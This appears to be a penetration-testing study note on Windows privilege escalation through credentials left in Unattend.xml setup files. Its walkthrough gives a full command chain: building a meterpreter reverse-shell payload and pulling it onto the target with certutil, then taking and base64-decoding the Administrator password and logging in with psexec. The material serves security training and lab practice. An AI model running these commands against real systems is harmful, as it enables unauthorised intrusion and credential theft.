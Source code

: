 # B - Searching for Passwords in Windows Configuration Files

### **Windows Configuration Files**

* Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
* This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
* This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
* If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

### **Unattended Windows Setup**

* The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
  * C:\Windows\Panther\Unattend.xml
  * C:\Windows\Panther\Autounattended.xml
* As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.



### **Practical Demonstration**

We already have a non-privileged foothold on the target system.

#### Gaining Initial access

```bash
# we generate a meterpreter 64bit payload.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$victim_ip LPORT=1234 -f exe > payload.exe

# we create a python server to transfer the payload to the victim PC.
python -m SimpleHTTPServer 80

# To transfer the file, we use the certutil utility.
certutil -urlcache -f http://$kali_ip/payload.exe payload.exe

# you can close the server.
# now we setup the Metasploit multi/handler listener.
service postgresql start && msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST and LPORT
run

# execute the payload on the target system, and we get a meterpreter session.
sysinfo
search -f Unattend.xml  # trying to find the creds mannually since we know the location.
# or we navigate into the location directly.
cd C:\\
cd Windows
cd Panther
dir  # we have the file there.
download Unattend.xml  # downloads the file to our kali machine.

# we can cat out the content of the file, then look through it. Get the UN and PW.
# we notice the password is encoded in base64.
# copy and paste the PW into a ".txt" file.
nano pass.txt
# lets use the [base64] utility in kali to decode it.
base64 -d pass.txt # we decode the password.

# in some cases, the sys admins might have already changed the password after the unattended installation.
# we use the psexec.py scipt to verify the password is still valid.
# psexec.py <username>@<targetIP> #Try the credentials to see if they're still valid
psexec.py  Administrator@$victim_ip
whoami  # nt authority.
```



